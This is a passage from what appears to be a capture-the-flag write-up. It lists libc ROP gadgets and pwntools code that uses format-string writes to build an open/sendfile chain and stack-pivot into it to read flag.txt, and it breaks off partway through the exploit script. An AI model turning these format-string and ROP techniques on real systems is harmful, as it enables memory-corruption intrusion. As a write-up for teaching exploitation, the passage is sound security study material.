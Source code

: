 ### ROP time!

Let's gather all our gadgets before we start ropping. Using the gadgets in the
provided libc, I narrowed the useful gadgets to these:

```asm
; 0x0000000000035732
pop rsp ;
ret ;

; 0x000000000002a3e5
pop rdi ; 
ret ;

; 0x000000000002be51
pop rsi ; 
ret ;

; 0x0000000000108b73 
pop rdx ; 
pop rcx ; 
pop rbx ; 
ret ;
```

In this chain, there's no need to use syscall because the seccomp filter is
quite lenient. So I'll just use the libc-provided wrappers.

We'll place the chain in a writable region in memory, and subsequently stack
pivot to that region using the `pop rsp{:asm}` gadget.

There's a small problem though. Because the maximum length of the username is
0xff bytes, we can't write the entire chain in one shot. We can use multiple
runs to slowly write the chain, and also try to reduce the size of the payload
by setting `write_size="short"{:py}` in `fmtstr_payload{:py}`.

```python
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rcx_rbx = libc.address + 0x0000000000108b73
pop_rsp = libc.address + 0x0000000000035732
ret = 0x401bea
OPEN = libc.sym.open
SENDFILE = libc.sym.sendfile

fake_stack = 0x404200

# name
payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack-0x10: u64(b"flag.txt"),
        fake_stack+0x00: pop_rdi
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
        fake_stack+0x08: fake_stack - 0x10,
        fake_stack+0x10: pop_rsi,
    })
)
p.send(payload)

payload = construct_payload(
    fmtstr_payload(16, {
```